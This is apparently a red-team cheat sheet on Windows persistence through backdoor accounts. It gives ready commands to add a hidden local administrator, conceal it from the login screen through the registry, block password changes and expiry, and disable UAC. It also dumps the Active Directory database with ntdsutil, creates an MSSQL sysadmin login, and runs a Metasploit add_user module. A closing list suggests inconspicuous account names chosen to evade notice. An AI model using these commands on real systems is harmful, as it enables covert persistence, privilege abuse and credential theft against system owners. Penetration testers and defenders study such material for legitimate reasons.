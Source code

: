 # Create User

Normally you wouldn't create an account since it is intrusive but hackers had to avoid writing malware on disk as much as possible. Choose your decisions wisely.

## 01 - Command Prompt

```
C:\> net user sysadmin s3cur3d+1T /add /y

C:\> net localgroup Administrators sysadmin /add /y
```

Makes the user account invisible from the Windows Login screen

`C:\> reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\Userlist" /v sysadmin /t REG_DWORD /d 0 /f`

Sometimes it's a bit annoying when losing access that somebody changed the password whatever if it's on purpose or accidental. This `/passwordchg:<YES | NO>` option will prevent it from happening.

`C:\> net user sysadmin /passwordchg:no`

Never expire the password (this command is intrusive so be careful)

`C:\> net accounts /maxpwage:unlimited`

Install From Media (IFM)

```
C:\> ntdsutil.exe "activate instance ntds" "ifm" "create full c:\temp" quit quit

C:\> ntdsutil.exe "ac in ntds" "ifm" "cr fu c:\temp" q q
```

Persistence method to add user account

`C:\> reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\UserList" /v MS_BACKUP /t REG_DWORD /d 0 /f`

Disabling UAC that allows the hacker to take full control

`C:\> reg.exe add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLUA /t REG_DWORD /d 0 /f`

Enabling UAC to make the admin restrictive

`C:\> reg.exe add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLUA /t REG_DWORD /d 1 /f`

## 02 - Powershell

```powershell
PS C:\> $password = ConvertTo-SecureString "<password>" -AsPlainText -Force
New-LocalUser -Name sysadmin -Password $password
Add-LocalGroupMember -Groups Administrators -Member "sysadmin"
```

## 03 - MSSQL

```
$ sqsh -S <IP> -U <username> -P "<password>"
 
1> CREATE LOGIN <username> WITH PASSWORD = '<password>';
2> sp_addsrvrolemember '<username>', 'sysadmin';
3> go
```

## 04 - Metasploit

### 4.1 - Modules

#### 4.1.1 - Post

```
msf post(windows/manage/add_user) > options

Module options (post/windows/manage/add_user):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   ADDTODOMAIN  true             yes       Add to Domain if true, otherwise add locally
   ADDTOGROUP   false            yes       Add group if it does not exist
   GROUP                         no        Add user into group, creating it if necessary
   PASSWORD                      no        Password of the user
   SESSION                       yes       The session to run this module on.
   TOKEN                         no        Username or PID of the token which will be used (if blank, Domain Admin tokens will be enumerated)
   USERNAME                      yes       The username of the user to add (not-qualified, e.g. BOB)

msf post(windows/manage/add_user) > set username sysadmin

msf post(windows/manage/add_user) > set password s3cUrePassw0rd!

msf post(windows/manage/add_user) > set addtodomain false

msf post(windows/manage/add_user) > set addtogroup true

msf post(windows/manage/add_user) > set group administrators

msf post(windows/manage/add_user) > set session <number>

msf post(windows/manage/add_user) > run
```

### 4.2 - Meterpreter

#### 4.2.1 - Incognito

TODO: Fill this info

## 05 - User Accounts Examples

Here are the usernames that you can think of to create an account but be sure to come up your own to make it less obvious

```
service
windows
user
help
guest
assistant
HelpAssistant
admin
admin1
admin2
sysadmin
localadmin
MS_BACKUP
sqlbackup
loginid
oldadministrator
```

---
## References

- [Hacktricks: Pentesting MSSQL Microsoft SQL Server](https://book.hacktricks.xyz/pentesting/pentesting-mssql-microsoft-sql-server)

- [Zweilosec: Windows RedTeam Persistence](https://zweilosec.gitbook.io/hackers-rest/windows-1/windows-redteam/persistence)

- [Persistence Info](https://persistence-info.github.io/)